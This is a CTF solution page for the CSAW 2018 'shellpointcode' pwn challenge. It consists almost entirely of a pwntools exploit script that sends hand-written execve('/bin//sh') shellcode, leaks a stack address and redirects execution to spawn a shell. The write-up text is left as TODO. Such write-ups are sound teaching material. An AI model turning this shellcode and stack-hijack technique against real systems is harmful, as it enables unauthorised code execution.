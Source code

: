 # CSAW ctf quals 2018 : shellpointcode

**Category:** Pwn
**Points:** 100

r = remote("pwn.chal.csaw.io",9005)
#r = process("./shellpointcode")
#context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(r, gdbscript='''
#    continue
#''')

raw_input()
#break *0x555555554918

print r.recvuntil(":")
payload1 = "\x3b\x00\x00\x00\x00\x00\x00\x00" #location
r.sendline(payload1)
print r.recvuntil(":")
payload2 = "\x53\x5e\x55\x53\x5a\x48\x8d\x3c\x24\x50\xB0\x3B\x0f\x05\x90"
# x/20i $rip-20

# push rbx = \x53 push null characters
# pop rsi = \x5e
# push rbp = \x55 push /bin//sh onto stack
# lea rdi, [rsp] = \x48\x8d\x3c\x24
# syscall = \x0F\x05
# pop rax = \x58

# pop rdx = \x5a
# add rsp,0x28 = \x48\x83\xC4\x28

r.sendline(payload2)
print r.recvuntil("0x")
beis = r.recv(12)
log.info("location of Bs: " + beis)
print r.recvuntil("?")
payload3 = "a" * 3 + "\x2F\x62\x69\x6E\x2F\x2F\x73\x68" + p64( int(beis, 16) + 0x8) + "\x00"
#this will have the string of /bin//sh and a null termininator after the popped
r.sendline(payload3)
print "payload sent"
#raw_input()
r.recvline()
r.interactive()

## Write-up

(TODO)

## Other write-ups and resources

* none yet
